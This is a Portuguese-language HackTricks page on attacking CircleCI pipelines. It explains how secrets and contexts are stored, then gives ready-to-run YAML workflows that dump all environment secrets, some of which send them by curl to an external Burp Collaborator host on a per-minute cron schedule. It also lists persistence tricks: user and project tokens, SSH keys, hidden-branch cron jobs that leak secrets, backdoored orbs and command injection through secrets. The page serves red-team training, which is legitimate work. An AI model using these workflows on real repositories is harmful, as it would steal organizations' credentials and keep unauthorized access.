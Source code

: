 # Segurança do CircleCI

<details>

{% hint style="success" %}
Aprenda e pratique Hacking na AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Treinamento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking no GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Treinamento HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoie o HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Informações Básicas

[**CircleCI**](https://circleci.com/docs/2.0/about-circleci/) é uma plataforma de Integração Contínua onde você pode **definir modelos** indicando o que deseja que seja feito com algum código e quando fazer. Dessa forma, você pode **automatizar testes** ou **implantações** diretamente **a partir do branch master do seu repositório**, por exemplo.

## Permissões

**CircleCI** **herda as permissões** do github e bitbucket relacionadas à **conta** que faz login.\
Nos meus testes, verifiquei que, desde que você tenha **permissões de escrita sobre o repositório no github**, você poderá **gerenciar as configurações do projeto no CircleCI** (definir novas chaves ssh, obter chaves de api do projeto, criar novos branches com novas configurações do CircleCI...).

No entanto, você precisa ser um **administrador do repositório** para **converter o repositório em um projeto do CircleCI**.

## Variáveis de Ambiente e Segredos

De acordo com [**a documentação**](https://circleci.com/docs/2.0/env-vars/), existem diferentes maneiras de **carregar valores em variáveis de ambiente** dentro de um fluxo de trabalho.

### Variáveis de ambiente integradas

Cada contêiner executado pelo CircleCI sempre terá [**variáveis de ambiente específicas definidas na documentação**](https://circleci.com/docs/2.0/env-vars/#built-in-environment-variables) como `CIRCLE_PR_USERNAME`, `CIRCLE_PROJECT_REPONAME` ou `CIRCLE_USERNAME`.

### Texto claro

Você pode declará-las em texto claro dentro de um **comando**:
```yaml
- run:
name: "set and echo"
command: |
SECRET="A secret"
echo $SECRET
```
Você pode declará-los em texto claro dentro do **ambiente de execução**:
```yaml
- run:
name: "set and echo"
command: echo $SECRET
environment:
SECRET: A secret
```
Você pode declará-los em texto claro dentro do ambiente do **build-job**:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
Você pode declará-los em texto claro dentro do **ambiente de um contêiner**:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
### Segredos do Projeto

Estes são **segredos** que só serão **acessíveis** pelo **projeto** (por **qualquer ramo**).\
Você pode vê-los **declarados em** _https://app.circleci.com/settings/project/github/\<org\_name>/\<repo\_name>/environment-variables_

![](<../.gitbook/assets/image (129).png>)

{% hint style="danger" %}
A funcionalidade de "**Importar Variáveis**" permite **importar variáveis de outros projetos** para este.
{% endhint %}

### Segredos de Contexto

Estes são segredos que são **para toda a organização**. Por **padrão, qualquer repositório** poderá **acessar qualquer segredo** armazenado aqui:

![](<../.gitbook/assets/image (123).png>)

{% hint style="success" %}
No entanto, observe que um grupo diferente (em vez de Todos os membros) pode ser **selecionado para dar acesso apenas a pessoas específicas** aos segredos.\
Atualmente, esta é uma das melhores maneiras de **aumentar a segurança dos segredos**, para não permitir que todos os acessem, mas apenas algumas pessoas.
{% endhint %}

## Ataques

### Buscar Segredos em Texto Claro

Se você tem **acesso ao VCS** (como github), verifique o arquivo `.circleci/config.yml` de **cada repositório em cada ramo** e **procure** por potenciais **segredos em texto claro** armazenados lá.

### Enumeração de Variáveis de Ambiente Secretas e de Contexto

Verificando o código, você pode encontrar **todos os nomes de segredos** que estão sendo **usados** em cada arquivo `.circleci/config.yml`. Você também pode obter os **nomes de contexto** desses arquivos ou verificá-los no console web: _https://app.circleci.com/settings/organization/github/\<org\_name>/contexts_.

### Exfiltrar Segredos do Projeto

{% hint style="warning" %}
Para **exfiltrar TODOS** os segredos do projeto e do contexto, você **apenas** precisa ter acesso de **ESCRITA** a **apenas 1 repositório** em toda a organização do github (_e sua conta deve ter acesso aos contextos, mas por padrão todos podem acessar todos os contextos_).
{% endhint %}

{% hint style="danger" %}
A funcionalidade de "**Importar Variáveis**" permite **importar variáveis de outros projetos** para este. Portanto, um atacante poderia **importar todas as variáveis do projeto de todos os repositórios** e então **exfiltrar todos eles juntos**.
{% endhint %}

Todos os segredos do projeto sempre são definidos no env dos jobs, então apenas chamando env e ofuscando em base64 irá exfiltrar os segredos no **console de log web dos fluxos de trabalho**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env
```
Se você **não tem acesso ao console web** mas tem **acesso ao repositório** e sabe que o CircleCI está sendo usado, você pode simplesmente **criar um fluxo de trabalho** que é **acionado a cada minuto** e que **extrai os segredos para um endereço externo**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env
```
### Extrair Segredos de Contexto

Você precisa **especificar o nome do contexto** (isso também irá extrair os segredos do projeto):
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env:
context: Test-Context
```
Se você **não tem acesso ao console web** mas tem **acesso ao repositório** e sabe que o CircleCI está sendo usado, você pode simplesmente **modificar um fluxo de trabalho** que é **acionado a cada minuto** e que **extrai os segredos para um endereço externo**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env:
context: Test-Context
```
{% hint style="warning" %}
Apenas criar um novo `.circleci/config.yml` em um repositório **não é suficiente para acionar uma compilação no CircleCI**. Você precisa **habilitá-lo como um projeto no console do CircleCI**.
{% endhint %}

### Escape para a Nuvem

**CircleCI** oferece a opção de executar **suas compilações em suas máquinas ou nas suas próprias**.\
Por padrão, suas máquinas estão localizadas no GCP, e inicialmente você não conseguirá encontrar nada relevante. No entanto, se uma vítima estiver executando as tarefas em **suas próprias máquinas (potencialmente, em um ambiente de nuvem)**, você pode encontrar um **ponto de extremidade de metadados da nuvem com informações interessantes**.

Observe que nos exemplos anteriores tudo foi executado dentro de um contêiner Docker, mas você também pode **solicitar o lançamento de uma máquina VM** (que pode ter permissões de nuvem diferentes):
```yaml
jobs:
exfil-env:
#docker:
#  - image: cimg/base:stable
machine:
image: ubuntu-2004:current
```
Ou até mesmo um contêiner Docker com acesso a um serviço Docker remoto:
```yaml
jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- setup_remote_docker:
version: 19.03.13
```
### Persistência

* É possível **criar tokens de usuário no CircleCI** para acessar os pontos de API com as permissões do usuário.
* _https://app.circleci.com/settings/user/tokens_
* É possível **criar tokens de projetos** para acessar o projeto com as permissões concedidas ao token.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/api_
* É possível **adicionar chaves SSH** aos projetos.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/ssh_
* É possível **criar um trabalho cron em um branch oculto** em um projeto inesperado que está **vazando** todas as **variáveis de ambiente de contexto** diariamente.
* Ou até mesmo criar em um branch / modificar um trabalho conhecido que irá **vazar** todos os contextos e **segredos dos projetos** diariamente.
* Se você é proprietário do GitHub, pode **permitir orbs não verificados** e configurar um em um trabalho como **backdoor**
* Você pode encontrar uma **vulnerabilidade de injeção de comando** em alguma tarefa e **injetar comandos** via um **segredo** modificando seu valor

<details>

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Treinamento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Treinamento HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoie o HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
